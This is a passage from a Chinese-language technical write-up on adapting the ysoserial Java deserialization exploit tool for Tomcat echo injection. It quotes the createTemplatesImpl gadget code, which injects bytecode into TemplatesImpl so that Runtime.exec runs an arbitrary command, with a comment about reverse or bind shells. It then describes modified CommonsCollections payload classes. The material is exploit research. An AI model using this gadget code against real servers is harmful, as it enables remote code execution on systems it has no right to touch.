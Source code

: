 ```java
    return createTemplatesImpl(command, c, TemplatesImpl.class, AbstractTranslet.class, TransformerFactoryImpl.class);
}


public static <T> T createTemplatesImpl ( final String command, Class c, Class<T> tplClass, Class<?> abstTranslet, Class<?> transFactory )
        throws Exception {
    final T templates = tplClass.newInstance();
    final byte[] classBytes;
    if (c == null) {
        // use template gadget class
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(StubTransletPayload.class));
        pool.insertClassPath(new ClassClassPath(abstTranslet));
        final CtClass clazz = pool.get(StubTransletPayload.class.getName());
        // run command in static initializer
        // TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections
        String cmd = "java.lang.Runtime.getRuntime().exec(\"" +
            command.replaceAll("\\\\", "\\\\\\\\").replaceAll("\"", "\\\"") +
            "\");";
        clazz.makeClassInitializer().insertAfter(cmd);
        // sortarandom name to allow repeated exploitation (watch out for PermGen exhaustion)
        clazz.setName("ysoserial.Pwner" + System.nanoTime());
        CtClass superC = pool.get(abstTranslet.getName());
        clazz.setSuperclass(superC);
        classBytes = clazz.toBytecode();
    } else {
        classBytes = ClassFiles.classAsBytes(c);
    }


    // inject class bytes into instance
    Reflections.setFieldValue(templates, "_bytecodes", new byte[][] {
        classBytes, ClassFiles.classAsBytes(Foo.class)
    });

    // required to make TemplatesImpl happy
    Reflections.setFieldValue(templates, "_name", "Pwnr");
    Reflections.setFieldValue(templates, "_tfactory", transFactory.newInstance());
    return templates;
}
```

可以看到，第二个传入的Class参数，我们并没有用到javassist，而是直接转字节数组，然后放到TemplatesImpl实例的\_bytecodes字段中了。

最后，回到ysoserial中有调用Gadgets.createTemplatesImpl的payload类中来，我这边对每一个都做了拷贝修改，例如CommonsCollections11，我拷贝其修改后的类为CommonsCollections11ForTomcatEchoInject，在调用`Gadgets.createTemplatesImpl(command[0];`的地方，改成了`final Object templates = Gadgets.createTemplatesImpl(null, TomcatEchoInject.class);`

并且，对ysoserial的main入口做一点小修改，因为原来的代码规定必须要有payload的入参，而我们这里不需要了
